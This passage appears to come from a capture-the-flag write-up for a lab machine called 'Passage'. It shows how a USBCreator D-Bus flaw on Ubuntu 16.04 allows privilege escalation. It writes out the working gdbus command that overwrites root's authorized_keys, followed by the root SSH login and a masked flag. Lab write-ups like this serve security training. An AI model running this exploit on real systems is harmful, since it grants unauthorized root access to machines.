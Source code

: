 ```bash

</busconfig>
```

Let us do a [quick Google- search](https://www.google.com/search?q=usbcreator+dbus+privesc) and see, if there is privesc-potential in this configuration. The search gives an interesting article: [USBCreator D-Bus Privilege Escalation in Ubuntu Desktop](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/). 

The article perfectly fits our target.

```bash
nadav@passage:~$ hostnamectl
   Static hostname: passage
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 4a23f1f5846e4890b0997d28c0fdd9e3
           Boot ID: a69a367dec7743d6bb35d4ad4c2db116
    Virtualization: vmware
  Operating System: Ubuntu 16.04.6 LTS
            Kernel: Linux 4.15.0-45-generic
      Architecture: x86-64
```

We are running Ubuntu 16.04.

As can be seen in this picture of the article, we can arbitrary copy files from and to any location in the context of root (which gives us read&write access to the entire fs).

![Privesc: https://unit42.paloaltonetworks.com/wp-content/uploads/2019/07/word-image-30.png](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/07/word-image-30.png)

### Exploiting D-Bus

Let us try to overwrite the root authorized_keys-file with the authorized_keys-file of nadav.

```bash
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
()
```

If this exploit was success, we should be able to ssh into the machine as root.

```bash
nadav@passage:~$ ssh root@passage
Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~#
```

We successfully ssh in as root and can now read root.txt.

```bash
root@passage:~# cat root.txt 
2e1af***************************
```
